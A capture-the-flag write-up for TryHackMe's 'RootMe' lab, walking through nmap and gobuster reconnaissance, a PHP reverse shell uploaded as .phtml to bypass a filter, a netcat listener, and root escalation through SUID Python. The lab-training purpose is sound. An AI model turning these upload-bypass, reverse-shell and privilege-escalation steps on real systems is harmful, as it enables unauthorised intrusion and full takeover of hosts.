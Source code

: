 # RootMe
This is a fun starter challenge from TryHackMe, it’s a free room, rated Easy. I’ll be showing the step-by-step and explain the process.

![RootMe](../Images/thm_rootme_1.png)

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:
> nmap -n -sSV -Pn 10.10.73.226

![RootMe](../Images/thm_rootme_2.png)

The scan shows that the ports 22 and 80 are open, so…
> Answer: 2

**What version of Apache is running?**  
As shown in the scan…
> Answer: 2.4.29

**What service is running on port 22?**  
Once again, as shown in the scan…  
> Answer: SSH

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
> gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

![RootMe](../Images/thm_rootme_3.png)

We got a few results right away, and upon testing them we get the right answer…  
> Answer: /panel/

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  

![RootMe](../Images/thm_rootme_4.png)

I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell  
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
> $ip = ‘127.0.0.1’;  
> $port = 1234;

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” - taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


![RootMe](../Images/thm_rootme_5.png)

Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:
> nc -vnlp 1234

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.

![RootMe](../Images/thm_rootme_6.png)

It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:
> python -c ‘import pty; pty.spawn(“/bin/bash”)’

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
> find / -user root -perm /4000 2> /dev/null

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:

![RootMe](../Images/thm_rootme_7.png)

The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!
> Answer: /usr/bin/python

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:
> /usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’

![RootMe](../Images/thm_rootme_8.png)

Next up, we can search for the “root.txt” file:
> find / -name root.txt

![RootMe](../Images/thm_rootme_9.png)

And then we can finally read the file and get the last flag!
> cat /root/root.txt

**That’s all folks!**  
Thanks for reading and keep hacking!
